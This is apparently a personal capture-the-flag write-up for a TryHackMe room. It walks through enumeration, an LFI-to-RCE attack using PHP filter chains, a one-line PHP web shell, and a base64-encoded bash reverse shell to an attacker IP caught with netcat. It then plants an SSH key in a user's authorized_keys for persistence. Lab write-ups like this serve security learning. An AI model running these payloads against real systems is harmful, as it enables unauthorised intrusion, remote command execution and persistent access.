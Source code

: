 
[[TryHackMe]] Room

**Date**: 13/02/25
**Target IP**: 10.10.13.47

---
## **Initial Scanning**

### [[nmap]] :

- Every port seems to be open which is wild. Scanning the top 10 ports indicates to me that truly only ports 22 and 80 have anything interesting for the time being as their the only ones which return sensible data.

---
## **Exploration and Enumeration**

There's a `login.php` page. It's an Apache server. Running dirbuster gives me nothing. dirsearch however provides some interesting looking endpoints :

``` hl:24,27
Target: http://10.10.13.47/

[16:47:50] Starting: 
[16:48:06] 403 -  276B  - /.ht_wsr.txt
[16:48:06] 403 -  276B  - /.htaccess.bak1
[16:48:06] 403 -  276B  - /.htaccess.orig
[16:48:06] 403 -  276B  - /.htaccess.sample
[16:48:06] 403 -  276B  - /.htaccess.save
[16:48:06] 403 -  276B  - /.htaccess_extra
[16:48:06] 403 -  276B  - /.htaccess_orig
[16:48:06] 403 -  276B  - /.htaccess_sc
[16:48:06] 403 -  276B  - /.htaccessOLD
[16:48:06] 403 -  276B  - /.htaccessBAK
[16:48:06] 403 -  276B  - /.htaccessOLD2
[16:48:06] 403 -  276B  - /.htm
[16:48:06] 403 -  276B  - /.html
[16:48:06] 403 -  276B  - /.htpasswd_test
[16:48:06] 403 -  276B  - /.htpasswds
[16:48:06] 403 -  276B  - /.httr-oauth
[16:48:10] 403 -  276B  - /.php
[16:49:10] 301 -  311B  - /images  ->  http://10.10.13.47/images/
[16:49:10] 200 -  484B  - /images/
[16:49:17] 200 -  370B  - /login.php
[16:49:26] 200 -  254B  - /orders.html
[16:49:40] 403 -  276B  - /server-status/
[16:49:40] 403 -  276B  - /server-status
[16:49:54] 200 -  254B  - /users.html
```

But there's no content part from a header on the actual pages.

Running sqlmap on the login request actually gives me an interesting redirect to `http://10.10.13.47/secret-script.php?file=supersecretadminpanel.html`and indicates that the backend DB is MySQL however it does also say the username parameter a false positive.

The endpoint is an admin panel wit nothing of much note apart from the URL itself.

---
## **Exploitation**

The file parameter allows for path traversal allowing me to arbitrarily read files.

I had to refer to the write-up for this next part. I'm not smart enough to put this together which is annoying.

So, the admin panel URL `http://10.10.13.47/secret-script.php?file=php://filter/resource=messages.html` contains a PHP filter which apparently allows arbitrary PHP code execution and is an interesting vulnerability. LFI2RCE is what i have to look into.

I learnt that the following can help generate php filter chain exploits :
**https://github.com/synacktiv/php_filter_chain_generator

As a trial we can generate a payload to print the phpinfo :

``` ln=false
❯ python3 php_filter_chain_generator.py --chain="<?php phpinfo(); ?>"

[+] The following gadget chain will generate the following code : <?php phpinfo(); ?> (base64 value: PD9waHAgcGhwaW5mbygpOyA/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-.........
```

And it worked. So we can go ahead now and try and get a reverse shell.

We go about this by uploading the simplest possible php web shell using the following:

``` ln=false
❯ python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`?>'
```

We run the code as follows :

``` ln=false
http://10.10.13.47/secret-script.php?0=id&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8..........
```

We now have the ability to run arbitrary commands.

Using https://www.revshells.com/ we can generate a Bash -i reverse shell command. The write-up explained that base64 encoding it would help avoid any conflicts with special characters in the URL.

So, to obtain the reverse shell I finally navigate to :

``` ln=false
http://10.10.13.47/secret-script.php?0=echo%20L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjQuMTIyLjgwLzEzMzcgMD4mMQ==%20|%20base64%20-d%20|%20bash&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv...................
```

Where the actual command for the shell is :

``` ln=false
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjQuMTIyLjgwLzEzMzcgMD4mMQ== | base64 -d | bash
```

``` ln=false
❯ nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.4.122.80] from (UNKNOWN) [10.10.13.47] 42486
bash: cannot set terminal process group (821): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cheesectf:/var/www/html$ ls
```

I really need to remember to upgrade the shell using instructions from [[Shell Upgrade]].

We have an upgraded shell as www-data.

---
## **Post-Exploitation**

Run linpeas.

Found an interesting file : `/etc/systemd/system/exploit.timer`

Also we can navigate to the comte user's home directory. Here we find their .ssh folder in which there is an `authorized_keys` file which we can write to.

I can therefore use the following to generate my own SSH key using the following on my host system, copy and echo the public key into the `authorized_keys` file and use the id key to SSH as the comte user: 

``` ln=false
❯ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase for "/home/kali/.ssh/id_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:+YaZ67XYzsE1aZ23+vaMUH+qWDuBDDCkR89LOwTQWfI kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|    .+=o.        |
|     o=*         |
|    . .oE        |
|     . o.+   o . |
|        So .= + .|
|         Boo.o o.|
|        + * o. .o|
|         B =.o.=.|
|       .+.* o+=.+|
+----[SHA256]-----+
```


